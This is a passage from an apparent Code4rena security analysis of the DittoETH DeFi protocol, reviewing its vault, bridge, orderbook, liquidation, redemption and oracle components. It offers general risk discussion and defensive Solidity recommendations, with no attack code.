2. Conduct thorough testing and validation of the orderbook matching algorithm. Develop a comprehensive test suite that covers various scenarios, edge cases, and potential attack vectors. Perform fuzz testing and property-based testing to identify any unintended behavior or vulnerabilities. Consider engaging external auditors or the community to review and validate the matching logic to ensure its correctness and robustness.

### Liquidation (`PrimaryLiquidationFacet.sol`)

The `PrimaryLiquidationFacet` contract enables the liquidation of undercollateralized short positions. It allows liquidators to identify and liquidate positions that fall below the required collateralization ratio, helping to maintain the stability and solvency of the DittoETH protocol.

**Concerns:**

1. The `liquidate` function performs the liquidation of undercollateralized short positions. During the liquidation process, the contract calculates the liquidation penalty and the caller's fee based on the `penaltyCR` and `callerFeePct` values, respectively. However, there is no explicit check to ensure that these values are within reasonable ranges. If the penalty or caller fee percentages are set too high, it could discourage liquidations and negatively impact the protocol's stability.

2. The liquidation process involves the transfer of collateral and fees between the liquidated short position, the liquidator, and the TAPP (Treasury Asset Protection Pool). While the contract does handle various scenarios and edge cases, there is a potential concern regarding the accuracy and correctness of the accounting logic. Any discrepancies or errors in the accounting could lead to incorrect distributions of collateral and fees.

**Recommendations:**

1. Implement safeguards and validations for the `penaltyCR` and `callerFeePct` values used in the liquidation process. Ensure that these values are within reasonable ranges and do not exceed certain thresholds. Consider adding checks in the liquidation function to verify that the penalty and caller fee percentages are valid and do not disincentivize liquidations.

```solidity
function liquidate(/* ... */) external returns (uint88, uint88) {
    // Rest of the function logic
    uint256 maxPenaltyCR = 0.5 ether; // Maximum penalty collateralization ratio
    uint256 maxCallerFeePct = 0.1 ether; // Maximum caller fee percentage
    
    if (m.penaltyCR > maxPenaltyCR) revert Errors.InvalidPenaltyCR();
    if (m.callerFeePct > maxCallerFeePct) revert Errors.InvalidCallerFeePct();
    // Rest of the function logic
}
```

2. Thoroughly review and audit the accounting logic in the liquidation process. Ensure that the calculations for distributing collateral, fees, and penalties are accurate and consistent. Develop comprehensive test cases to verify the correctness of the accounting under different scenarios, including edge cases and potential rounding errors. Consider using formal verification techniques or engaging external auditors to validate the accounting logic and identify any discrepancies or vulnerabilities.

### Redemption (`RedemptionFacet.sol`)

The `RedemptionFacet` contract enables `DittoAsset` holders to redeem their assets for the underlying collateral. It provides functionalities for proposing redemptions, disputing redemptions, and claiming the redeemed collateral. The redemption component ensures the convertibility and stability of `DittoAssets`.

**Concerns:**

1. The `proposeRedemption` function allows users to propose a set of short positions for redemption. The function processes the proposed positions and updates the collateral and debt balances accordingly. However, there is a potential concern regarding the gas cost of this function, especially if a large number of positions are proposed in a single transaction. Processing a large redemption proposal could exceed the block gas limit, making it infeasible to execute.

2. The redemption process involves a dispute period during which other users can challenge the proposed redemptions. The dispute logic implemented in the `disputeRedemption` function relies on the accuracy and correctness of the provided dispute data. If the dispute data is maliciously crafted or incorrect, it could lead to invalid disputes and potentially disrupt the redemption process.

**Recommendations:**

1. Implement pagination or batching mechanisms for the redemption proposal process. Instead of allowing users to propose a large number of positions in a single transaction, consider limiting the number of positions per proposal and enabling users to submit multiple proposals incrementally. This can help mitigate the gas cost concerns and ensure that redemption proposals can be processed within the block gas limit.

```solidity
uint256 constant MAX_POSITIONS_PER_PROPOSAL = 100; // Adjust the limit as needed

function proposeRedemption(/* ... */) external {
    // Rest of the function logic
    if (proposalInput.length > MAX_POSITIONS_PER_PROPOSAL) revert Errors.TooManyPositionsInProposal();
    // Rest of the function logic
}
```

2. Implement robust validation and error handling mechanisms in the `disputeRedemption` function to ensure the integrity of the dispute process. Verify the authenticity and correctness of the provided dispute data before processing a dispute. Consider implementing additional checks and safeguards to prevent malicious or invalid disputes from disrupting the redemption process.

```solidity
function disputeRedemption(/* ... */) external {
    // Rest of the function logic
    if (!isValidDisputeData(disputeData)) revert Errors.InvalidDisputeData();
    // Rest of the function logic
}

function isValidDisputeData(bytes memory disputeData) internal pure returns (bool) {
    // Implement logic to validate the structure and contents of the dispute data
    // Return true if the dispute data is valid, false otherwise
}
```

Additionally, consider implementing a reputation system or staking mechanism for disputers to discourage frivolous or malicious disputes. Require disputers to stake a certain amount of tokens, which can be slashed if their disputes are found to be invalid or malicious. This can help maintain the integrity of the redemption process and deter bad actors from disrupting it.

The DittoETH protocol demonstrates a well-designed and thoughtfully implemented architecture for enabling the minting, trading, and redemption of pegged assets. The codebase exhibits a strong commitment to security, modularity, and extensibility. However, as with any complex system, there are certain areas that require careful consideration and additional safeguards to ensure the protocol's robustness and reliability.

The concerns and recommendations highlighted in this overview aim to address potential vulnerabilities, optimize gas efficiency, and enhance the overall security and usability of the DittoETH protocol. Implementing additional validations, safeguards, and error handling mechanisms can help mitigate risks and ensure the smooth operation of the protocol.

It is crucial to conduct thorough fuzz and invariant testing, auditing, and validation of the codebase, especially for critical components such as the orderbook matching algorithm and the liquidation process. Engaging the community, external auditors, and leveraging formal verification techniques can provide additional assurance and help identify any potential issues or vulnerabilities.

## Key Components and Analysis of DittoETH

### 1. Vault Management

The vault management component, implemented in the `VaultFacet` contract, plays a crucial role in the DittoETH protocol by ensuring the secure storage and accounting of collateral assets. It provides functions for depositing and withdrawing collateral, minting dETH (an internal representation of the deposited collateral), and updating yield rates.

One of the key strengths of the vault management system is its ability to handle multiple types of collateral, including LSTs (Liquid Staking Tokens) and ETH. The `depositAsset` and `depositEth` functions allow users to seamlessly deposit their collateral into the vault, while the `withdrawAsset` function enables them to withdraw their collateral when needed.

The vault management component maintains accurate accounting of the deposited collateral through the use of the `VaultUser` struct, which keeps track of each user's dETH balance. The `addDeth` function in the `LibBridgeRouter` library ensures that the deposited collateral is properly credited to the user's account and updates the vault's total dETH balance.

To ensure the security and integrity of the collateral, the vault management system incorporates various checks and validations. For example, the `withdrawAsset` function verifies that the user has sufficient dETH balance before allowing a withdrawal and updates the user's balance accordingly.

Overall, the vault management component provides a robust and flexible foundation for the DittoETH protocol, enabling users to securely deposit and withdraw their collateral while maintaining accurate accounting and yield calculations.

*Note: to view the provided image, please see the original submission [here](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/64).*

### 2. Bridge Interaction

The bridge interaction component, implemented in the `BridgeRouterFacet` contract, is responsible for facilitating the integration of external LST bridges into the DittoETH protocol. It allows users to deposit and withdraw LSTs through supported bridges, such as the rETH and stETH bridges, and seamlessly converts them to dETH and vice versa.

The `deposit` and `depositEth` functions in the `BridgeRouterFacet` contract enable users to deposit LSTs or ETH through the specified bridge. The contract interacts with the corresponding bridge contract to initiate the deposit process and converts the deposited assets into dETH, which is then credited to the user's account.

Similarly, the `withdraw` function allows users to withdraw their LSTs from the protocol by specifying the bridge and the amount of dETH to be withdrawn. The contract communicates with the bridge contract to facilitate the withdrawal process, converting the dETH back into the corresponding LSTs and transferring them to the user's wallet.

One of the notable features of the bridge interaction component is the credit system, which handles scenarios where users deposit and withdraw different types of LSTs. When a user deposits LSTs through a specific bridge, they receive a bridge credit associated with that particular LST. The credit is tracked and managed within the `BridgeRouterFacet` contract, ensuring that users can only withdraw the LSTs they have previously deposited.

The bridge interaction component also incorporates a withdrawal fee mechanism, which calculates the fee based on the market premium/discount between rETH and stETH using a 30-minute TWAP (Time-Weighted Average Price). This fee serves to prevent arbitrage opportunities and ensure fair pricing for LST withdrawals.

Overall, the bridge interaction component enhances the flexibility and interoperability of the DittoETH protocol by enabling seamless integration with external LST bridges. It provides users with a convenient way to deposit and withdraw different types of LSTs while maintaining accurate accounting and credit tracking.

*Note: to view the provided image, please see the original submission [here](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/64).*

### 3. Orderbook

The orderbook component, implemented in the `BidOrdersFacet` and `ShortOrdersFacet` contracts, is a critical part of the DittoETH protocol as it facilitates the matching of buyers and sellers of `DittoAssets`. It provides a decentralized and efficient mechanism for price discovery and liquidity provision.

The `BidOrdersFacet` contract handles the placement and management of bid orders on the orderbook. Users can place bids by specifying the desired `DittoAsset`, the price they are willing to pay, and the amount of dETH collateral they wish to use. The contract validates the input parameters, checks the user's available dETH balance, and creates a new bid order on the orderbook.

Similarly, the `ShortOrdersFacet` contract manages the creation and matching of short orders on the orderbook. Shorters can place asks by specifying the `DittoAsset` they want to mint and sell, the price they are willing to sell at, and the amount of `DittoAssets` they wish to create. The contract verifies the shorter's collateral adequacy, ensures compliance with the protocol's collateralization requirements, and creates a new short order on the orderbook.

The orderbook component employs a sophisticated matching algorithm to efficiently match bid and short orders. The `bidMatchAlgo` and `sellMatchAlgo` functions traverse the orderbook to find the best matching counterparty based on price, quantity, and order type. When a match is found, the contracts execute the trade, transferring the `DittoAssets` from the shorter to the bidder and the dETH collateral from the bidder to the shorter.

To optimize gas costs and improve performance, the orderbook utilizes a hint system, where users can provide hints in the form of order IDs to indicate the expected position of their order in the orderbook. These hints help the contracts quickly locate the appropriate position for new orders, reducing the number of iterations required for matching.

The orderbook component also handles partial fills and order cancellations. If an order is only partially filled, the remaining quantity is updated, and the order remains active on the orderbook for future matches. Users have the flexibility to cancel their outstanding orders, which removes them from the orderbook and releases the associated collateral.

*Note: to view the provided image, please see the original submission [here](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/64).*

### 4. Liquidation

The liquidation component, implemented in the `PrimaryLiquidationFacet` contract, is essential for maintaining the stability and solvency of the DittoETH protocol. It enables the liquidation of undercollateralized short positions, ensuring that the protocol remains adequately collateralized and protects against potential defaults.

When a shorter opens a short position by minting and selling `DittoAssets`, they are required to provide sufficient collateral to meet the protocol's collateralization requirements. The collateralization ratio, defined as the ratio of the collateral value to the minted `DittoAsset` value, must be maintained above a certain threshold. If the collateralization ratio falls below the liquidation threshold, the short position becomes eligible for liquidation.

The `PrimaryLiquidationFacet` contract allows liquidators to identify and liquidate undercollateralized short positions. Liquidators continuously monitor the collateralization ratios of short positions and can initiate the liquidation process by calling the `liquidate` function, specifying the `DittoAsset`, the shorter's address, and the ID of the short position to be liquidated.

Upon receiving a liquidation request, the contract verifies the eligibility of the short position for liquidation by calculating the current collateralization ratio based on the latest price information from the oracle. If the short position is indeed undercollateralized, the liquidation process proceeds.

During liquidation, the contract forcefully closes the short position by executing a series of steps. It determines the amount of `DittoAssets` that need to be repurchased to bring the position back to a safe collateralization level. The contract then places a forced bid on the orderbook to buy back the necessary `DittoAssets` using the shorter's collateral. If the forced bid is successful and the required `DittoAssets` are acquired, the contract burns the repurchased `DittoAssets`, effectively reducing the supply and stabilizing the collateralization ratio.

The liquidation process also involves the distribution of liquidation penalties and incentives. The shorter whose position is liquidated incurs a liquidation penalty, which is a percentage of their collateral that is forfeited. This penalty serves as a deterrent against reckless borrowing and encourages responsible collateral management. On the other hand, liquidators who successfully liquidate undercollateralized positions are rewarded with a portion of the liquidation penalty as an incentive for their efforts in maintaining the protocol's stability.

*Note: to view the provided image, please see the original submission [here](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/64).*

### 5. Redemption

The redemption component, implemented in the `RedemptionFacet` contract, enables `DittoAsset` holders to redeem their assets for the underlying collateral. It provides a mechanism for users to exit their positions and retrieve the value locked within the protocol, ensuring the convertibility and stability of `DittoAssets`.

The redemption process begins with a user proposing a set of short positions for redemption by calling the `proposeRedemption` function. The user specifies the `DittoAsset`, the proposed redemption amount, and the maximum redemption fee they are willing to pay. The contract validates the proposal, checks the user's `DittoAsset` balance, and verifies that the proposed positions meet the redemption criteria.

Once a redemption proposal is submitted, it enters a dispute period during which other users can challenge the proposed redemptions. The dispute mechanism, implemented in the `disputeRedemption` function, allows users to provide evidence and dispute the validity of the proposed redemptions. If a dispute is successful, the challenged positions are removed from the redemption proposal, and the remaining positions proceed to the redemption process.

After the dispute period has passed, the redeemer can claim the redeemed collateral by calling the `claimRedemption` function. The contract verifies that the dispute period has elapsed and processes the approved redemption positions. It calculates the corresponding amount of collateral to be released based on the redemption rate and burns the redeemed `DittoAssets`, effectively removing them from circulation.

The redemption component also includes a mechanism for shorters to claim any remaining collateral from their redeemed positions. If a shorter's position is fully redeemed and the redeemer fails to claim the collateral, the shorter can call the `claimRemainingCollateral` function to retrieve their remaining collateral.

To ensure fair pricing and prevent abuse, the redemption process incorporates a dynamic redemption fee mechanism. The fee is calculated based on factors such as the total collateral redeemed, the redemption amount, and the time elapsed since the last redemption. The fee serves to discourage excessive redemptions and maintain the stability of the `DittoAsset` ecosystem.

*Note: to view the provided image, please see the original submission [here](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/64).*

### 6. Price Oracles

The DittoETH protocol relies on accurate and reliable price oracles to determine the value of assets and ensure the proper functioning of various components, such as collateralization checks, liquidations, and redemptions. The price oracle component is implemented in the `LibOracle` library and utilizes both Chainlink price feeds and Uniswap V3 TWAPs (Time-Weighted Average Prices).

The `getOraclePrice` function in the `LibOracle` library is responsible for retrieving the price of an asset from the configured oracle. It supports two types of oracles: the base oracle (e.g., ETH/USD) and asset-specific oracles (e.g., BTC/ETH). The function first checks the availability and validity of the price data from the primary oracle (Chainlink). If the primary oracle price is unavailable or outdated, it falls back to using the TWAP price from Uniswap V3.

The oracle component includes circuit breaker mechanisms to handle situations where the oracle price deviates significantly from the protocol's stored price or if the price data is stale. The `baseOracleCircuitBreaker` function compares the Chainlink price with the protocol's stored price and the TWAP price. If the deviation exceeds a certain threshold (e.g., 50%), it falls back to using the TWAP price to ensure the integrity of the price data.

The `twapCircuitBreaker` function is used as a fallback mechanism when the primary oracle price is unavailable or invalid. It retrieves the TWAP price from Uniswap V3 based on a specified time interval (e.g., 30 minutes) and verifies the liquidity of the trading pair to ensure the reliability of the price data.

The price oracle component also includes functions for setting and retrieving the stored oracle price and timestamp. The `setPriceAndTime` function allows the protocol to update the stored price and timestamp, while the `getPrice` and `getTime` functions provide access to the stored values.

*Note: to view the provided image, please see the original submission [here](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/64).*

### 7. Access Control and Permissions

The DittoETH protocol implements a robust access control and permissions system to ensure the security and integrity of the platform. The protocol follows the principle of least privilege, granting specific roles and permissions to different entities based on their responsibilities and requirements.

The access control mechanism is primarily implemented through the use of modifiers and role-based checks within the smart contracts. The `Modifiers` contract defines a set of modifiers that restrict access to certain functions based on the caller's role or privileges. For example, the `onlyDAO` modifier ensures that only the designated DAO (Decentralized Autonomous Organization) address can execute specific functions, such as

## Code Weakspots and Complexity

### 1. Vault Management (`VaultFacet.sol`)

**Potential Weakness:** The `depositAsset` and `depositEth` functions allow users to deposit any amount of collateral, including zero amounts. While the `addDeth` function in `LibBridgeRouter` does check for a minimum deposit amount, allowing zero deposits in the `VaultFacet` could lead to unnecessary transactions and potential confusion for users.

**Example Scenario:** A user accidentally calls the `depositAsset` function with an amount of zero. Although the transaction will not have any effect on the user's balance, it will still consume gas and clutter the transaction history.

**Complexity:** The vault management component interacts with multiple other contracts and libraries, such as `LibBridgeRouter` and `LibVault`, which adds complexity to the overall system. Ensuring the correctness and security of these interactions requires careful auditing and testing.

### 2. Bridge Interaction (`BridgeRouterFacet.sol`)

**Potential Weakness:** The `deposit` and `depositEth` functions rely on the `addDeth` function in `LibBridgeRouter` to update the user's balance and the vault's total dETH. However, there is no explicit validation to ensure that the `addDeth` function executed successfully. If the `addDeth` function fails silently, it could lead to inconsistencies in the user's balance and the vault's total dETH.

**Example Scenario:** If the `addDeth` function encounters an error or fails to update the user's balance correctly, the user's deposit may not be properly credited, leading to a loss of funds or incorrect accounting.

**Complexity:** The bridge interaction component involves complex logic for handling different types of collateral (LSTs and ETH) and interacting with external bridge contracts. The `withdraw` function, in particular, has a significant level of complexity due to the various checks and calculations involved, such as assessing the user's bridge credit and calculating withdrawal fees based on market prices.

### 3. Orderbook (`BidOrdersFacet.sol` and `ShortOrdersFacet.sol`)

**Potential Weakness:** The orderbook matching algorithm implemented in the `bidMatchAlgo` and `sellMatchAlgo` functions is complex and involves multiple loops and conditions. This complexity increases the potential for errors or unintended behavior, especially when dealing with edge cases or extreme market conditions.

**Example Scenario:** If there is a bug in the matching algorithm that causes incorrect order matching or settlement, it could lead to financial losses for users or even exploitation by malicious actors.

**Complexity:** The orderbook component is one of the most complex parts of the DittoETH protocol. It involves intricate logic for order placement, matching, and settlement, as well as the management of the underlying data structures. The use of a hint system to optimize gas costs and performance adds another layer of complexity to the orderbook implementation.

### 4. Liquidation (`PrimaryLiquidationFacet.sol`)

**Potential Weakness:** The liquidation process relies on the accuracy and reliability of the price oracle to determine the collateralization ratio of short positions. If the price oracle is manipulated or provides incorrect data, it could lead to improper liquidations or allow undercollateralized positions to remain open.

**Example Scenario:** An attacker manipulates the price oracle to falsely report a lower price for a collateral asset. This manipulation could cause the liquidation threshold to be breached, triggering unnecessary liquidations and causing financial losses for shorters.

**Complexity:** The liquidation component involves complex calculations and interactions with multiple parts of the protocol, such as the orderbook and the Treasury Asset Protection Pool (TAPP). The `liquidate` function has to handle various scenarios, such as calculating liquidation penalties, placing forced bids on the orderbook, and distributing incentives to liquidators. This complexity makes the liquidation process prone to errors and requires thorough testing and auditing.

### 5. Redemption (`RedemptionFacet.sol`)

**Potential Weakness:** The redemption process allows users to propose a set of short positions for redemption, which can be disputed by other users during a specified dispute period. However, the dispute mechanism relies on the accuracy and honesty of the disputers. If a malicious user submits false or fabricated evidence to dispute a legitimate redemption proposal, it could delay or prevent the redemption process.

**Example Scenario:** A malicious user deliberately submits invalid dispute evidence to challenge a valid redemption proposal. This action could cause the redeemer to lose their opportunity to redeem their assets and potentially incur financial losses.

**Complexity:** The redemption component involves a multi-step process that includes proposal submission, dispute handling, and claim processing. The complexity lies in managing the state transitions, handling disputes, and ensuring the correct distribution of collateral and burning of redeemed `DittoAssets`. The redemption fee calculation also adds complexity, as it takes into account various factors such as the total collateral redeemed and the time elapsed since the last redemption.

### 6. Price Oracles (`LibOracle.sol`)

**Potential Weakness:** The price oracle component relies on external data sources, such as Chainlink price feeds and Uniswap V3 TWAPs, to provide accurate and up-to-date price information. However, if these external data sources are compromised, manipulated, or experience downtime, it could lead to incorrect price data being used by the protocol, resulting in improper liquidations, redemptions, or other critical operations.

**Example Scenario:** If the Chainlink price feed for an asset is manipulated to report an artificially low price, it could trigger unnecessary liquidations of short positions, causing financial losses for shorters.

**Complexity:** The price oracle component has to handle various scenarios and fallback mechanisms to ensure the availability and reliability of price data. The `getOraclePrice` function has to navigate through different oracle types (base oracle and asset-specific oracles), handle circuit breakers, and fallback to TWAP prices when necessary. This complexity increases the potential for errors and requires careful testing and monitoring.

### 7. Access Control and Permissions (`Modifiers.sol`)

**Potential Weakness:** The access control and permissions system relies on the correct configuration and management of roles and privileges. If the roles are not properly assigned or if there are vulnerabilities in the access control mechanisms, it could lead to unauthorized access to critical functions or sensitive data.

**Example Scenario:** If the DAO role is accidentally assigned to an untrusted address, it could allow that address to execute privileged functions, such as modifying protocol parameters or withdrawing funds from the TAPP.

**Complexity:** The access control and permissions system is implemented using modifiers and role-based checks scattered throughout the codebase. While this approach provides flexibility and granularity, it also increases the complexity of the system and makes it harder to reason about the overall security posture. Ensuring the correctness and consistency of access control requires careful auditing and testing.

### 8. Yield Management (`LibVault.sol`)

**Potential Weakness:** The yield management component calculates and distributes the dETH yield based on the vault's total collateral and the elapsed time since the last yield update. However, if the yield calculation formula is incorrect or if there are rounding errors, it could lead to incorrect yield distribution or potential exploits.

**Example Scenario:** If the yield calculation formula has a vulnerability that allows an attacker to manipulate the yield rate, they could potentially earn more yield than intended, leading to an unfair distribution of rewards.

**Complexity:** The yield management component involves complex mathematical calculations and interactions with other parts of the protocol, such as the vault and the dETH token. The `updateYield` function has to handle various edge cases, such as when the vault's collateral is zero or when there is a significant time gap since the last yield update. This complexity increases the potential for errors and requires thorough testing and auditing.

### 9. Short Record Management (`LibShortRecord.sol`)

**Potential Weakness:** The short record management component is responsible for creating, updating, and deleting short records, which represent a user's short position. However, if there are bugs or inconsistencies in the short record management logic, it could lead to incorrect accounting of short positions or potential exploits.

**Example Scenario:** If the `fillShortRecord` function has a bug that allows a user to increase their collateral without increasing their debt proportionally, it could lead to an undercollateralized short position and potential loss of funds for the protocol.

**Complexity:** The short record management component interacts with various other parts of the protocol, such as the orderbook, the liquidation component, and the vault. It has to handle complex calculations and state transitions, such as updating the ercDebtRate and dethYieldRate, and ensuring the consistency of short records across different operations. This complexity increases the potential for errors and requires thorough testing and auditing.

### 10. Treasury Asset Protection Pool (TAPP)

**Potential Weakness:** The TAPP is a critical component of the DittoETH protocol that acts as a safety net to absorb potential losses and ensure the stability of the system. However, if the TAPP is not adequately funded or if there are vulnerabilities in the TAPP management logic, it could lead to insufficient protection against black swan events or potential exploits.

**Example Scenario:** If the TAPP is drained due to a vulnerability or an unexpected market event, it may not have enough funds to cover the losses incurred by the protocol, leading to a loss of confidence and potential collapse of the system.

**Complexity:** The TAPP involves complex interactions with various components of the protocol, such as the liquidation process, the redemption process, and the yield management system. It requires careful management of funds, accurate accounting, and robust security measures to ensure its effectiveness. The complexity of the TAPP increases the potential for errors and vulnerabilities and requires thorough testing and auditing.

### 11. Error Handling and Exceptions (`Errors.sol`)

**Potential Weakness:** The `Errors.sol` contract defines a set of custom error types used throughout the DittoETH codebase. However, if the error handling and exception mechanisms are not properly implemented or if there are inconsistencies in error reporting, it could lead to incorrect error messages or potential exploits.

**Example Scenario:** If an error condition is not properly checked or if the wrong error type is used, it could lead to misleading error messages or even allow an attacker to bypass certain validations and exploit the system.

**Complexity:** The error handling and exception mechanism is spread across the entire codebase, with different contracts and functions using custom error types defined in the `Errors.sol` contract. Ensuring the consistency and correctness of error handling requires careful auditing and testing of all the contracts and functions that use these error types.

### 12. Event Logging (`Events.sol`)

**Potential Weakness:** The `Events.sol` contract defines a set of event types used for logging important actions and state changes in the DittoETH protocol. However, if the event logging is not comprehensive or if there are missing events for critical actions, it could hinder the ability to properly monitor and audit the system.

**Example Scenario:** If a critical action, such as a liquidation or a redemption, is not properly logged with the relevant event, it could make it difficult to track and investigate any issues or discrepancies in the system.

**Complexity:** The event logging mechanism is spread across the entire codebase, with different contracts and functions emitting events defined in the `Events.sol` contract. Ensuring the completeness and accuracy of event logging requires careful auditing and testing of all the contracts and functions that emit these events.

It's important to note that the weaknesses and complexities mentioned above are potential areas of concern and may not necessarily represent actual vulnerabilities or exploits. However, they highlight the need for thorough testing, auditing, and continuous monitoring of the DittoETH protocol to ensure its security, reliability, and robustness.

## Risks Related to the DittoETH Project

### 1. Centralization Risk

The DittoETH protocol aims to be a decentralized platform for minting and trading pegged assets. However, there are certain aspects of the protocol that may introduce centralization risks.

**Governance:** The protocol is governed by a DAO (Decentralized Autonomous Organization), which has the power to make critical decisions, such as adjusting protocol parameters, managing the TAPP (Treasury Asset Protection Pool), and upgrading the protocol. If the DAO is not sufficiently decentralized or if there is a concentration of voting power among a few entities, it could lead to centralized decision-making and potential conflicts of interest.

**Oracles:** The protocol relies on external price oracles, such as Chainlink and Uniswap V3 TWAPs, to provide accurate price data for various assets. If these oracles are compromised or controlled by a centralized entity, it could lead to manipulation of price feeds and affect the integrity of the protocol.

**Liquidity Provision:** The liquidity of the DittoAssets and the underlying collateral assets is crucial for the proper functioning of the protocol. If there is a concentration of liquidity provision among a few entities, it could lead to centralization risks and potential market manipulation.


### 2. Systematic Risk

The DittoETH protocol operates within the broader context of the cryptocurrency and DeFi ecosystem, which exposes it to various systematic risks.

**Market Volatility:** The protocol's collateral assets, such as LSTs (Liquid Staking Tokens) and ETH, are subject to market volatility. Sudden and significant price fluctuations of these assets could impact the collateralization ratios of short positions and trigger liquidations, potentially causing cascading effects on the protocol.

**Regulatory Uncertainty:** The regulatory landscape for cryptocurrencies and DeFi is still evolving, and there is uncertainty regarding the legal and compliance requirements for protocols like DittoETH. Changes in regulations or legal actions could have a significant impact on the protocol's operations and adoption.

**Interoperability and Composability:** The DittoETH protocol interacts with other DeFi protocols and platforms, such as LST bridges and DEXes. Any vulnerabilities or failures in these external systems could have a ripple effect on the DittoETH protocol and its users.



### 3. Technical Risk

The DittoETH protocol is a complex system that involves multiple smart contracts, libraries, and external dependencies. This complexity introduces various technical risks.

**Smart Contract Vulnerabilities:** The protocol's smart contracts may contain vulnerabilities or bugs that could be exploited by malicious actors. These vulnerabilities could lead to loss of funds, unauthorized access, or disruption of the protocol's functionalities.

**Upgradability and Governance:** The protocol's upgradability mechanism, such as the Diamond standard, allows for the addition of new features and improvements. However, if the governance process for upgrades is not secure or if there are vulnerabilities in the upgrade mechanism itself, it could introduce technical risks.

**Scalability and Performance:** As the adoption and usage of the DittoETH protocol grow, scalability and performance issues may arise. If the protocol is not able to handle increased transaction volumes or if there are bottlenecks in the system, it could lead to delays, higher gas costs, and poor user experience.



### 4. Integration Risk

The DittoETH protocol integrates with various external systems and dependencies, which introduces integration risks.

**Oracle Integration:** The protocol relies on price oracles, such as Chainlink and Uniswap V3 TWAPs, for accurate price data. If there are issues with the integration of these oracles, such as delays, inconsistencies, or vulnerabilities, it could affect the protocol's functionality and security.

**Bridge Integration:** The protocol integrates with LST bridges to enable the deposit and withdrawal of collateral assets. Any failures or vulnerabilities in the bridge contracts or the integration mechanism could lead to loss of funds or disruption of the protocol's operations.

**DEX Integration:** The protocol utilizes DEXes (Decentralized Exchanges) for liquidity provision and trading of DittoAssets. If there are issues with the integration of these DEXes, such as front-running, slippage, or liquidity crises, it could impact the protocol's efficiency and user experience.



### 5. Other Risks

**Non-Standard Token Risks:** The DittoETH protocol supports the minting and trading of pegged assets, which are essentially synthetic tokens. These tokens may not adhere to standard token interfaces or behaviors, which could lead to compatibility issues or unexpected behavior when interacting with other DeFi protocols or wallets.

**User Errors:** The protocol's user interface and user experience play a crucial role in ensuring the safe and correct usage of the platform. If users make errors while interacting with the protocol, such as inputting incorrect amounts, selecting wrong assets, or not understanding the implications of their actions, it could lead to financial losses or unintended consequences.



Overall Risk Diagram:

*Note: to view the provided image, please see the original submission [here](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/64).*

This diagram provides an overview of the various risks associated with the DittoETH protocol. It highlights the main risk categories and their corresponding sub-risks, illustrating the complex and interconnected nature of these risks.

Managing and mitigating these risks requires a comprehensive risk management framework that includes:

1. Regular audits and security assessments of the protocol's smart contracts and dependencies.
2. Continuous monitoring and alerting systems to detect and respond to any anomalies or suspicious activities.
3. Robust governance mechanisms that ensure transparent and decentralized decision-making processes.
4. Thorough testing and simulation of various market conditions and scenarios to assess the protocol's resilience.
5. Clear communication and education for users to help them understand the risks and make informed decisions.
6. Collaboration with the broader DeFi community to share best practices, learn from other protocols, and collectively address common risks and challenges.

## Software Engineering Considerations

### Modularity and Separation of Concerns

The DittoETH protocol follows a modular architecture using the Diamond standard, which promotes the separation of concerns and allows for extensibility and upgradability. The codebase is organized into multiple facets, each responsible for a specific functionality, such as vault management (`VaultFacet`), bridge interaction (`BridgeRouterFacet`), orderbook management (`BidOrdersFacet`, `ShortOrdersFacet`), liquidation (`PrimaryLiquidationFacet`), and redemption (`RedemptionFacet`).

This modular approach enhances code maintainability, as each facet can be developed, tested, and deployed independently. It also enables the protocol to evolve and adapt over time by adding new facets or upgrading existing ones without disrupting the entire system.

For example, the `VaultFacet` contract focuses solely on managing vaults and handling collateral deposits and withdrawals:

```solidity
function depositAsset(address bridge, uint88 amount) external nonReentrant {
   // ...
   uint88 dethAmount = uint88(IBridge(bridge).deposit(msg.sender, amount));
   vault.addDeth(bridgePointer, dethAmount);
   // ...
   }
```

This separation of concerns allows for a cleaner and more focused codebase, making it easier to understand, maintain, and extend.

### Code Reusability and Libraries

The DittoETH protocol makes extensive use of libraries to encapsulate complex logic and promote code reusability. Libraries such as `LibOrders`, `LibAsset`, `LibShortRecord`, and `LibVault` contain utility functions and common operations that are used across multiple contracts.

For instance, the `LibOrders` library contains functions for managing orders on the orderbook, such as adding, canceling, and matching orders:

```solidity
function addBid(address asset, STypes.Order memory order, MTypes.OrderHint[] memory orderHintArray) internal {
   // ...
   addOrder(s.bids, asset, order, hintId);
   // ...
}
```

By leveraging libraries, the codebase avoids duplication and ensures consistency in the implementation of common functionalities. This approach also improves code readability and maintainability, as the core logic is abstracted away into reusable units.

### Error Handling and Validation

The DittoETH protocol incorporates robust error handling and validation mechanisms to ensure the integrity and security of the system. The `Errors` library defines a set of custom error types that are used consistently throughout the codebase to provide meaningful and informative error messages.

Functions in the protocol's contracts perform necessary validations and checks to prevent invalid or malicious inputs. For example, the `createBid` function in the `BidOrdersFacet` contract verifies the asset validity and checks for sufficient ETH balance before creating a bid order:

```solidity
function createBid(/* ... */) external isNotFrozen(asset) onlyValidAsset(asset) nonReentrant returns (uint88 ethFilled, uint88 ercAmountLeft) {
   // ...
   if (eth < LibAsset.minBidEth(asset)) revert Errors.OrderUnderMinimumSize();
   if (s.vaultUser[Asset.vault][sender].ethEscrowed < eth) revert Errors.InsufficientETHEscrowed();
   // ...
}
```

These error handling and validation practices help in catching and preventing potential issues early in the execution flow, improving the overall robustness and reliability of the protocol.

### Testing and Code Coverage

The DittoETH protocol places a strong emphasis on testing and code coverage to ensure the correctness and reliability of the smart contracts. The codebase includes a comprehensive test suite that covers various scenarios, edge cases, and potential vulnerabilities.

The tests are written using the Foundry framework, which provides a powerful and efficient testing environment for Solidity contracts. The tests cover unit testing of individual functions, integration testing of contract interactions, and scenario-based testing to simulate real-world usage patterns.

```solidity
function testCreateBid() public {
   // ...
   (uint88 ethFilled, uint88 ercAmountLeft) = bidOrdersFacet.createBid(/* ... */);
   // ...
   assertEq(ethFilled, expectedEthFilled, "Incorrect ethFilled amount");
   assertEq(ercAmountLeft, expectedErcAmountLeft, "Incorrect ercAmountLeft amount");
}
```

The extensive test coverage helps in identifying and fixing bugs, ensuring the expected behavior of the contracts, and maintaining a high level of code quality. It also provides confidence in the protocol's functionality and security.

### Documentation and Comments

The DittoETH codebase follows good documentation practices, with comprehensive comments and NatSpec annotations providing clear explanations of the purpose, functionality, and usage of each contract, function, and important code block.

```solidity
/**
* @notice Creates bid order in market
